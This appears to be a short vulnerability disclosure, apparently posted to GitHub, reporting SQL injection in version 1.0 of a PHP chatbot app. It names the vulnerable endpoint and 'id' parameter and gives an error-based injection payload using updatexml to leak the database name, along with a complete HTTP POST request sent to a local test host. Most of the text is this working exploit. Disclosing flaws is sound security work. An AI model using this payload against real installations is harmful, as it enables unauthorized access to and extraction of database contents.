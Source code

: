 # chatbot-app-suggestion-phpoop v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /simple_chat_bot/classes/Master.php?f=delete_response

Vulnerability location: /simple_chat_bot/classes/Master.php?f=delete_response, id

[+] Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /simple_chat_bot/classes/Master.php?f=delete_response HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/simple_chat_bot/admin/?page=responses
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/chatbot/blob/main/chatbot-app-suggestion-phpoop/sql.gif?raw=true)


